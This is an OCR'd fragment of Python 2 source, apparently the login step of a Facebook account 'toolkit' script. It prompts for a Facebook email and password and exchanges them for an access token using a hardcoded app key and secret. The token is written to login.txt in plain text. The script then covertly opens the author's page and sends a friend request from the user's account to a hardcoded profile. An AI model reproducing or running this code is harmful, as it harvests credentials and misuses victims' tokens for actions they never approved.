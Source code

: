 		print('\033[1;97m\x1b[1;96m▩━━━━━━━━━Login Your Facebook Account━━━━━━━━━━▩\x1b[1;97m' )
		print('	' )
		id = raw_input('\033[1;97m[*] \x1b[1;91mFacebook/Email\x1b[1;93m: \x1b[1;93m')
		pwd = raw_input('\033[1;97m[*] \x1b[1;91mPassword      \x1b[1;91m: \x1b[1;92m')
		tik()
		try:
			br.open('https://m.facebook.com')
		except mechanize.URLError:
			print"\n\x1b[1;97mThere is no internet connection"
			keluar()
		br._factory.is_html = True
		br.select_form(nr=0)
		br.form['email'] = id
		br.form['pass'] = pwd
		br.submit()
		url = br.geturl()
		if 'save-device' in url:
			try:
				sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'
				data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}
				x=hashlib.new("md5")
				x.update(sig)
				a=x.hexdigest()
				data.update({'sig':a})
				url = "https://api.facebook.com/restserver.php"
				r=requests.get(url,params=data)
				z=json.loads(r.text)
				unikers = open("login.txt", 'w')
				unikers.write(z['access_token'])
				unikers.close()
				print '\n\x1b[1;95mLogin Successful•'
				os.system('xdg-open https://m.facebook.com/toxic.shark.official/')
				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
				menu()
			except requests.exceptions.ConnectionError:
				print"\n\x1b[1;97mThere is no internet connection"
				keluar()
		if 'checkpoint' in url:
			print("\n\x1b[1;97mYour Account is on Checkpoint")
			os.system('rm -rf login.txt')
			time.sleep(1)
			keluar()
		else:
			print("\n\x1b[1;93mPassword/Email is wrong")
			os.system('rm -rf login.txt')
			time.sleep(1)
			login()
			